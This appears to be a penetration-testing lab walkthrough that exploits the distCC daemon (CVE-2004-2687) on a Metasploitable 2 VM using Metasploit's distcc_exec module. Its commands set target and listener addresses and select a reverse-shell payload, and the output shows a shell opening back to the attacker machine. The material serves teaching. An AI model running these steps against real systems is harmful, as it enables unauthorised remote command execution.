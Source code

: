 # distCC RCE [CVE-2004-2687]

**Note**: these labs are extremely oriented to the results, using a step-by-step guidance. During your progress, try to find more information and understand what you are doing. 

# Requirements

| Kali Linux | The Kali Linux VM (or any other type of installation) |
| --- | --- |
| Metaploitable 2 | The Metasploitable 2 VM |
| Metasploitable Framework | Metasploit Framework toolset (installed on Kali Linux by default) |
| Metasploitable 2 IP | The IP address of the Metasploitable 2 VM. In my case it is 192.168.8.142. This may be different in your specific case. |
| Kali Linux IP | The IP address of the Kali Linux machine. In my case it is 192.168.8.147. This may be different in your specific case. |

# Laboratory Workflow

The following describe the different steps to be conducted during the laboratory. You may introduce variations on this and learn from those variations.

### 1. Launch the Metasploit Framework

`msfconsole`

### 2. Search for the appropriate module

`search distcc`

```
Matching Modules
================

   #  Name                           Disclosure Date  Rank       Check  Description
   -  ----                           ---------------  ----       -----  -----------
   0  exploit/unix/misc/distcc_exec  2002-02-01       excellent  Yes    DistCC Daemon Command Execution
```

### 3. Use the module

`use exploit/unix/misc/distcc_exec`

### 4. Check the module options

`options`

```
Module options (exploit/unix/misc/distcc_exec):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT   3632             yes       The target port (TCP)

Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.8.147    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic Target
```

### 5. Set the appropriate options

`set RHOSTS 192.168.8.142`

```
RHOSTS => 192.168.8.142
```

### 6. Show possible payloads

`show payloads`

```
Compatible Payloads
===================

   #   Name                                        Disclosure Date  Rank    Check  Description
   -   ----                                        ---------------  ----    -----  -----------
   0   payload/cmd/unix/bind_perl                                   normal  No     Unix Command Shell, Bind TCP (via Perl)
   1   payload/cmd/unix/bind_perl_ipv6                              normal  No     Unix Command Shell, Bind TCP (via perl) IPv6
   2   payload/cmd/unix/bind_ruby                                   normal  No     Unix Command Shell, Bind TCP (via Ruby)
   3   payload/cmd/unix/bind_ruby_ipv6                              normal  No     Unix Command Shell, Bind TCP (via Ruby) IPv6
   4   payload/cmd/unix/generic                                     normal  No     Unix Command, Generic Command Execution
   5   payload/cmd/unix/reverse                                     normal  No     Unix Command Shell, Double Reverse TCP (telnet)
   6   payload/cmd/unix/reverse_bash_telnet_ssl                     normal  No     Unix Command Shell, Reverse TCP SSL (telnet)
   7   payload/cmd/unix/reverse_perl                                normal  No     Unix Command Shell, Reverse TCP (via Perl)
   8   payload/cmd/unix/reverse_perl_ssl                            normal  No     Unix Command Shell, Reverse TCP SSL (via perl)
   9   payload/cmd/unix/reverse_ruby                                normal  No     Unix Command Shell, Reverse TCP (via Ruby)
   10  payload/cmd/unix/reverse_ruby_ssl                            normal  No     Unix Command Shell, Reverse TCP SSL (via Ruby)
   11  payload/cmd/unix/reverse_ssl_double_telnet                   normal  No     Unix Command Shell, Double Reverse TCP SSL (telnet)
```

### 7. Select the payload

`set PAYLOAD payload/cmd/unix/reverse`

```
PAYLOAD => cmd/unix/reverse
```

### 8. Show options for payload

`show options`

```
Module options (exploit/unix/misc/distcc_exec):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  192.168.8.142    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT   3632             yes       The target port (TCP)

Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.8.147    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic Targe
```

### 9. Fill the options for the payload

`set LHOST 192.168.8.147`

```
LHOST => 192.168.8.147
```

### 10. Run the exploit

`exploit`

```
[*] Started reverse TCP double handler on 192.168.8.147:4444 
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo TkKLJgAeCRqAgdiV;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "TkKLJgAeCRqAgdiV\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (192.168.8.147:4444 -> 192.168.8.142:55458) at 2023-03-28 09:42:26 -0400
```

# Video

Video that resumes everything on this laboratory.

![](assets/distcc.gif)

# Questions

Now that you have completed this exploitation try to answer to following:

1. Now, what can I do with the exploitation achieved?
2. Which type of privileges do I have on the exploited target?
3. How was this accomplished?
4. Try to learn more about this vulnerability.